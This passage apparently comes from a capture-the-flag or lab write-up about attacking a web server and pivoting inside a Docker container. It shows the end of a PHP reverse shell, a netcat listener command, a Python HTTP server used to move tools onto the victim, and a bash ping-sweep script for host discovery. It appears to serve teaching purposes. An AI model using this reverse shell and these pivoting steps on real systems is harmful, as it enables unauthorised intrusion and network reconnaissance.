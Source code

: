 ```
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 



```



`nc -lvp 44444`

browse to the website and the shell will be opened

-------------------

## Reverse shell in the container
Now we have the container reverse shell

so all I did was use `ip address` to list ip routes... seems that 172.18.0.0/16 is the network this container has.

-------------------


## Uploading scripts into our container
Let's go back to our attacker machine and setup a simplehttpserver with python so we can use it as a download server for our container.
We have to do this because we cannot install anything on our container machine under current circumstances, apt is disabled, and we don't even have wget available. We can't make any scripts either, because vi,nano,vim,... is not present, sudo is also not available.

`cd <anydirectoryyouwanttouse>;python -m SimpleHttpServer `

the directory you are in is now being served on your attacker ip port 8000 by default.

I made two simple scripts in bash to mimic Nmap because installing nmap is impossible, you could try to install nmap using the deb package but you'll see that host discovery will not be available, you can however do port scanning with it but I found it not worth the time and efford.


**ipscan.sh**

```

#!/bin/bash
echo "first three octets of network to scan, end with a ."
read network
for host in {1..254}; do
    ping -c1 $network$host &>/dev/null;
    [ $? -eq 0 ] && echo "$network$host is up"
 echo "done checking host: " $network$host
done

```
